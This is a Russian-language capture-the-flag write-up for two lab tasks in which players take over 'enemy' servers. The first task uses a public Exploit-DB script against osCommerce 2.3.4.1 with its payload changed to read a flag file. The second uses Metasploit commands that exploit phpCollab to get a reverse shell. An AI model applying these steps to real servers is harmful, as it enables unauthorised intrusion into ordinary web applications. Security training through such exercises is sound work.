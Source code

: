 # kvvuctf_26.04


# PWN

## Захват инфраструктуры противника (ч.1) - 200 баллов

`http://100.64.X.186`

### Description

На данном сайте противником осуществляется закупка товаров для своих нужд. Однако информация о поставках хранится на сервере. Необходимо захватить сервер и прервать поставки, чтобы нарушить планы противника.

### Hint

Существуют ли эксплоиты для `osCommerce 2.3.4.1`?

### Writeup

1) Скачать [скрипт](https://www.exploit-db.com/exploits/44374) и в пэйлоаде заменить строку `ls` на `cat /flag.txt`

<details><summary>Скрипт</summary></details>



## Захват инфраструктуры противника (ч.2) - 700 баллов

`http://100.64.X.183`

### Описание

На данном сайте развернута система управления проектами и совместной работы личного состава противника. Она предоставляет целый ряд функций для управления задачами, хранения и обмена документами, управления контактами и системой уведомлений. 
Необходимо получить удаленный доступ, чтобы выгрузить информацию о взаимодействии личного состава противника

### Hint

Порой `Metasploit` очень помогает с поиском и эксплуатацией уязвимостей.


### Writeup

1) Для получения **reverse-shell** используем **Metasploit**:

```
msfconsole
search phpCollab
use 0
set RHOSTS 100.64.x.183
set TARGET 0
set TARGETURI /
exploit
```
